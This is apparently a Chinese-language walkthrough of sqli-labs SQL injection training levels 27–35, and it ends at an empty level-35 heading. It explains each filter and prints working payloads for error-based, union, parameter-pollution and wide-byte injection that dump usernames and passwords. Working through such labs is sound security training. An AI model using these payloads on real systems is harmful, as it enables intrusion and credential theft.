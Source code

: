 过滤了空格，和区分了大小写的 select 和 union 关键字，且 select 过滤了两次，那我们可以采用 union 双写，select 三写或者 union 与 select 混合大小写的方式绕过针对 union 和 select 关键字的过滤，然后和第 26 关使用一样的方式进行注入即可

```plaintext
?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(table_name))from(information_schema.tables)where(table_schema='security'))),1))or'0  爆表
?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(column_name))from(information_schema.columns)where(table_schema='security'and(table_name='users')))),1))or'0  爆字段
?id=1'or(updatexml(1,concat(0x7e,(selselecselecttect(group_concat(password,username))from(users))),1))or'0  爆字段值
```

### 第 27a 关

使用了双引号且关掉了回显的第 27 关，和 26a 关类似 😈

### 第 28 关

byd 突然可以使用%0A 代替空格了这是为什么呢 🤔
不断 fuzz 发现本关过滤了 "union select" 这样一个关键字组合，双写这个关键字组合便可绕过，阅读源代码发现输入被单引号和括号包裹，按照第 26 关的注入方式注入即可。本关 POC 如下

```?id=')%0Aunionunion%0Aselect%0Aselect%0A1,2,3%0Aor%0A('```

### 第 28a 关

青春版第 28 关，blacklist 变为只过滤 "union select" 关键字组合，直接套用第 28 关 payload 即可

### 第 29 关

注入?id = 1'得到回显发现是字符型注入点，注入?id =' union select 1,2,3 and 1 ='1 成功，进一步注入 ```' union select 1,group_concat(password,'%20 ',username),3 from users --+``` 直接秒了 🤔。
翻了翻根目录打算看源代码的时候发现原来还有两个页面，一个 login.php, 一个 hacked.php, 返回页面接着注 😈
输入?id = 1 成功访问，id = 1'时页面跳转到了 hacked.php, 被 WAF 抓到了 😈 果断查看源代码研究 WAF 是如何运作的。
在 login.php 中，发现后端会对输入的参数值进行正则匹配，正则表达式为 ```^\d+$```, 即只能输入数字。但是有一个奇怪的语句 ```whitelist($id1);``` 这似乎是在暗示我们参数不止一个，否则没有必要标出 1 这个值。经过一些搜索和 php 程序编写的验证，发现对于 ```$id=$_GET['id]```, 如果我们在传参的时候采用了 ```?id=value1&id=value2....```，即对同一参数重复传参，id 变量获取到的是最后一个 value 值。而用于 whitelist 函数检验的 id1 变量只会是第一个参数值。因此本关的绕过思路应该是第一个 id 参数传正常数字，然后在第二个 id 参数中写入 sql 语句
```?id=1&id=-1 union select 1,group_concat(password,'%20',username),3 from users --+```

### 第 30 关

双引号版的第 29 关

### 第 31 关

双引号加括号版的第 29 关

### 第 32 关

看了看关卡名和页面给出了输入的参数值的十六进制回显一眼就能看出这是宽字节注入，在引号前加个%df 速通

```?id=-1%df%27%20union%20select%201,group_concat(password,username),3%20from%20users--+```

### 第 33 关

怪了，和 32 关一样，作者手抖了？

### 第 34 关

很奇怪，看起来感觉就是 post 型的 sql 注入，但是回显显示%df 字符没有被 url 解码而是直接传进了 SQL 语句，导致宽字节注入没有成功，太抽象了。而 33，32 关 GET 方法传入的%df 就被正确的 urldecode 了。然后在我自己写的 post 回显验证程序中对 post 参数值的 urldecode 又是正常的 🤔。这样的话尝试使用%df 代表的明文字符或者使用它的其他编码应该能行。绷不住了。二刷做 Page4 时再尝试解决此问题。如果没出这个问题的话本题在 username 一栏注入 ```%df' union select 1,group_concat(password,username) from users  #``` 即可

### 第 35 关
```